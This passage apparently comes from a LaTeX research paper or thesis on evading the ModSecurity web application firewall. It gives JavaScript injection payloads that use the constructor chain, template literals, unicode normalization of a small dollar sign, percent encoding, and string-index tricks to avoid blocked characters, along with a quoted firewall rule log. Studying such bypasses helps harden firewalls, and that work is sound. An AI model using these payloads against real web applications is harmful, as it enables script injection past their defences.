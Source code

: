 If the webserver is using unicode normalization (NFKC) to normalize incoming requests, the character \verb|$| can also be replaced with another character in unicode that gets normalized to it to create a valid bypassing payload. It was tested with the small dollar sign U+FE69. In this case it was neccessary to use Percent encoding in addition to avoid that the WAF flags the Unicode escape sequences as :

\begin{lstlisting}[style=basicStyle, caption=avoiding () bypass payload using unicode normalization]
urllib.parse.quote("[]['constructor']['constructor']`a\uFE69{'var s = \"secret\";promp' + 't`something\uFE69{s}`'}```")
returns
%5B%5D%5B%27constructor%27%5D%5B%27constructor%27%5D%60a%EF%B9%A9%7B%27var%20s%20%3D%20%22secret%22%3Bpromp%27%20%2B%20%27t%60something%EF%B9%A9%7Bs%7D%60%27%7D%60%60%60
\end{lstlisting}

\subsubsection{Avoiding \{\}}
\label{sec:avoidingbypassB}
A payload thats not using any \verb|{}| but still allows for Tagged Template Literals or other usages of \verb|{}| can be created using string replace strategies. Considering the payload from the previous Section~\ref{sec:avoidingbypassA}, the similar payload in Listing~\ref{lst:stringreplaceblocked} was being blocked by the modsecurity firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=blocked for \$\{\} payload, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput${2+2}`')();</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}

On using a string replace strategy like mentioned in \ref{sec:stringreplace}, a payload in the form of

\begin{lstlisting}[style=basicStyle, caption=avoiding {} bypass payload using square bracket notation, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();
\end{lstlisting}

